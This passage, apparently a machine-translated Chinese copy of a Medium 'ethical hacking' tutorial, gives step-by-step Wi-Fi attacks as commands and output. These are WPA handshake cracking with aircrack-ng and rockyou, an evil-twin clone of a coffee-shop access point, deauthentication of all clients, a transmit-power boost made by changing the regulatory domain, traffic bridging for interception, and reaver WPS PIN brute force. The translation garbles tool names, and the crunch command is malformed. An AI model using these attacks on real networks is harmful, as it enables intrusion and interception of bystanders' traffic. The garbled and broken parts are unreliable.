                   neonOther options:-u         : Displays # of CPUs & SIMD support
      --help     : Displays this usage screen
```

“ **aircrack-ng** ”用于破解 WEP、WPA 和 WPA2 无线密钥。

正如我上面提到的，我们在“ **airodump-ng** ”中寻找这个结果。

```
As soon as a wireless client authenticates you will see this.CH  6 ][ Elapsed: 3 mins ][ 2020-10-25 19:02 ][ **WPA handshake: E8:AD:A6:E0:45:A4**
```

这意味着我们成功捕获了无线客户端和接入点(AP)之间的 WPA 握手。

在本文的“ **airodump-ng** ”部分，我还向您展示了如何在一个捕获文件中捕获这个 WPA 握手。

```
root@kali:~# **ls -la | grep SCAN**
-rw-r--r--  1 root root    139345 Oct 25 19:00 SCAN-01.cap
-rw-r--r--  1 root root       771 Oct 25 19:00 SCAN-01.csv
-rw-r--r--  1 root root       594 Oct 25 19:00 SCAN-01.kismet.csv
-rw-r--r--  1 root root      5881 Oct 25 19:00 SCAN-01.kismet.netxml
-rw-r--r--  1 root root     47062 Oct 25 19:00 SCAN-01.log.csv
```

你主要有两种方法破解无线密码。要么通过字典攻击，要么通过暴力。我推荐阅读我的另一篇文章，“[道德黑客(第 4 部分):密码&哈希破解](/ethical-hacking-part-4-password-hash-cracking-11ae7ab17fb0)”，在那里我详细介绍了这些技术。

一个"**字典攻击**"不仅仅使用字典中的单词。它将使用任何常用的密码或密码组合。也许是一些常见的键盘序列或一些常见的东西，如“密码 1！”会被瞬间破解。有一个非常大的单词列表叫做“ [**rockyou.txt**](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) ”，目前包含 **14344391** 密码。

```
root@kali:~# **apt-get install wget -y**root@kali:~# **wget** [**https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt**](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)root@kali:~# **wc -l rockyou.txt** 
14344391 rockyou.txt
```

你可以像这样把这个单词表和" **aircrack-ng** "一起使用。

```
root@kali:~# **aircrack-ng -w rockyou.txt SCAN_test-01.cap -e ESSID**
```

*   **rockyou.txt** 是我们下载的词表
*   **SCAN_test-01.cap** 是由 **airodump-ng** 创建的捕获文件
*   - **e ESSID** 是目标无线网络的无线名称/ SSID

当它运行时，它看起来像这样…

```
Aircrack-ng 1.6[00:00:10] 50654/14344391 keys tested (5021.50 k/s)Time left: 47 minutes, 26 seconds                          0.35%Current passphrase: lucky!Master Key     : 56 BE BE F6 9B 3B CE 8B D8 A1 A2 23 C1 CB 3D C4 
                 30 DA A8 DB 75 40 3C B2 43 CA 58 55 6D 2E 8B 01Transient Key  : D6 48 80 29 CB 04 46 AA 1E F1 22 5F 61 37 17 0A 
                 94 96 C0 12 F1 F0 BD 3C 12 5D 15 B4 DD 65 4F DB 
                 07 65 91 F7 DE 3E 9F 01 37 D5 ED 96 E4 B5 74 49 
                 7A 68 46 27 CE 6F C9 F1 86 23 42 91 E2 2C CF 5EEAPOL HMAC     : C3 51 8D 09 F2 2D 7E C4 70 5B 3C C9 DD B7 78 FB
```

每秒 5021 个键对于一个虚拟机来说并不算太差:)但是我给了我的 Kali 实例两个 CPU 和 8GB 内存。

第二种方法是暴力攻击。现在，这将尝试每个字符的每种组合，这在使用强密码的今天是一个有点不可能的任务。但是，如果您可以通过提供密码的大小或密码的大小范围来缩小搜索范围，就可以做到这一点。如果您知道密码中的任何字符(可能在特定位置)，可以进一步缩小范围。如果有任何可以排除的字符或字符集，可以进一步缩小范围。例如，如果你知道一个密码将是 8 个字符长，是字母数字，将很快被破解。

你要用的工具叫做“嘎吱嘎吱”。这个工具功能非常丰富，不可能在这里一一描述。最好是打开它的手册( **man crunch** ))，向下滚动到最后的例子。

基本用法如下。

```
root@kali:~# **crunch -F aircrack-ng -w - SCAN_test-01.cap -e ESSID**
```

## 空军基地

```
root@kali:~# **airbase-ng --help**Airbase-ng 1.6  - (C) 2008-2020 Thomas d'Otreppe
  Original work: Martin Beck
  [https://www.aircrack-ng.org](https://www.aircrack-ng.org)usage: airbase-ng <options> <replay interface>Options:-a bssid         : set Access Point MAC address
      -i iface         : capture packets from this interface
      -w WEP key       : use this WEP key to en-/decrypt packets
      -h MAC           : source mac for MITM mode
      -f disallow      : disallow specified client MACs (default: allow)
      -W 0|1           : [don't] set WEP flag in beacons 0|1 (default: auto)
      -q               : quiet (do not print statistics)
      -v               : verbose (print more messages)
      -A               : Ad-Hoc Mode (allows other clients to peer)
      -Y in|out|both   : external packet processing
      -c channel       : sets the channel the AP is running on
      -X               : hidden ESSID
      -s               : force shared key authentication (default: auto)
      -S               : set shared key challenge length (default: 128)
      -L               : Caffe-Latte WEP attack (use if driver can't send frags)
      -N               : cfrag WEP attack (recommended)
      -x nbpps         : number of packets per second (default: 100)
      -y               : disables responses to broadcast probes
      -0               : set all WPA,WEP,open tags. can't be used with -z & -Z
      -z type          : sets WPA1 tags. 1=WEP40 2=TKIP 3=WRAP 4=CCMP 5=WEP104
      -Z type          : same as -z, but for WPA2
      -V type          : fake EAPOL 1=MD5 2=SHA1 3=auto
      -F prefix        : write all sent and received frames into pcap file
      -P               : respond to all probes, even when specifying ESSIDs
      -I interval      : sets the beacon interval value in ms
      -C seconds       : enables beaconing of probed ESSID values (requires -P)
      -n hex           : User specified ANonce when doing the 4-way handshakeFilter options:
      --bssid MAC      : BSSID to filter/use
      --bssids file    : read a list of BSSIDs out of that file
      --client MAC     : MAC of client to filter
      --clients file   : read a list of MACs out of that file
      --essid ESSID    : specify a single ESSID (default: default)
      --essids file    : read a list of ESSIDs out of that file--help           : Displays this usage screen
```

" **airbase-ng** "允许您创建或克隆无线接入点(AP)。克隆一个无线接入点就是“**邪恶双胞胎**攻击的完成方式。

我给你举个例子。你在一家咖啡店里运行“ **airodump-ng** ”并扫描无线网络。您可以识别咖啡店提供的无线网络以及所有连接的设备。

因此，出于兴趣，让我们使用以下内容:

*   无线名称/ SSID:咖啡店
*   无线接入点 MAC: E8:AD:A6:B0:46:C5
*   频道:6

```
root@kali:~# **airbase-ng -a E8:AD:A6:B0:46:C5 --essid "CoffeeShop" -c 6 wlan0**
12:45:06  Created tap interface at0
12:45:06  Trying to set MTU on at0 to 1500
12:45:06  Access Point with BSSID E8:AD:A6:B0:46:C5 started.
```

现在我们已经克隆了咖啡店中的实际接入点。通过向无线客户端发送断开信号，它们都将尝试重新连接。

```
root@kali:~# **aireplay-ng -0 0 -a E8:AD:A6:E0:45:A4 wlan0**
```

因为你的设备会比实际的接入点更近并且有更强的信号，所以无线客户端都会与你的 Kali 实例相关联。还可以增强无线接入卡上的信号，增加无线客户端连接到您的机会。

```
root@kali:~# **ifconfig wlan0 down** root@kali:~# **iw reg set BO** root@kali:~# **ifconfig wlan0 up** root@kali:~# **iwconfig wlan0 channel 13** root@kali:~# **iwconfig wlan0 txpower 30**
```

如果我们在 Kali linux 实例中有两个网络接口卡，我们可以让第一个接口与实际的接入点配对，让第二个接口克隆无线客户端将连接的接入点。通过做一些巧妙的桥接、更新路由和更新 IP 表，你可以引导所有的流量通过你。

我不打算在本文中讨论桥接部分，但是作为开始的提示，您需要安装"**桥接工具**"。

```
root@kali:~# **apt-get install bridge-utils -y**
Reading package lists... Done
Building dependency tree       
Reading state information... Done
bridge-utils is already the newest version (1.6-3).
0 upgraded, 0 newly installed, 0 to remove and 330 not upgraded.
```

然后你会这样做…

```
root@kali:~# **brctl addbr br0**root@kali:~# **brctl show**
bridge name bridge id  STP enabled interfaces
br0  8000.000000000000 noroot@kali:~# **brctl addif br0** <interface1>
root@kali:~# **brctl addif br0** <interface2>
root@kali:~# **ifconfig br0 up**
```

如果你想试试这个，在 Debian wiki 中有一个很好的[解释。](https://wiki.debian.org/BridgeNetworkConnections)

# **利用 WPS**

从安全角度来看，WPS 是一个有点疯狂的功能。我不知道为什么大多数无线路由器都是开着的。我建议把这个关掉。

```
root@kali:~# **wash -i wlan0**
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
D0:57:94:B8:AC:F6    1  -66  1.0  **No**             REMOVED
26:4C:E3:5C:8E:73    1  -14  2.0  **No**   Broadcom  REMOVED
58:EF:68:07:BE:07    1  -84  2.0  **No**   RealtekS  REMOVED
40:C7:29:22:43:7E   11  -98  2.0  **No**   Broadcom  REMOVED
```

如果您运行" **wash** "并在" **Lck** "栏中看到" **No** ",则路由器易受攻击。

我们来看第一个使用“**掠夺者**”的。

```
root@kali:~# **iwconfig wlan0 channel 6**root@kali:~# **reaver -b D0:57:94:B8:AC:F6 -i wlan0 -c 1 -vv**Reaver v1.6.1 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <[cheffner@tacnetsol.com](mailto:cheffner@tacnetsol.com)>[+] Switching wlan0 to channel 1
[+] Waiting for beacon from D0:57:94:B8:AC:F6
[+] Associated with D0:57:94:B8:AC:F6 (ESSID: REMOVED)
[+] Trying pin "12345670"
```

你要知道，开启了 WPS 的像样的路由器会试图阻止这些攻击。如果你有一定数量的失败尝试在一段时间内，它将被限制和阻止一段时间。处理的方式是提供“ **-r 4:60** ”，这意味着每 60 秒尝试 4 次。

为了进一步阅读，看看我写的关于这个话题的 19 个故事。


迈克尔·惠特尔

## 道德黑客培训课程

[View list](https://whittle.medium.com/list/ethical-hacking-training-course-710769700b83?source=post_page-----cd44cd1445b7--------------------------------)19 stories

# 迈克尔·惠特尔

*   ***如果你喜欢这个，请*** [***跟我上媒***](https://whittle.medium.com/)
*   ***更多有趣的文章，请*** [***关注我的刊物***](https://medium.com/trading-data-analysis)
*   ***对通敌感兴趣？*** [***我们上 LinkedIn***](https://www.linkedin.com/in/miwhittle/) 连线吧
*   ***支持我和其他媒体作者*** [***在此报名***](https://whittle.medium.com/membership)
*   ***请别忘了为文章鼓掌:)←谢谢！***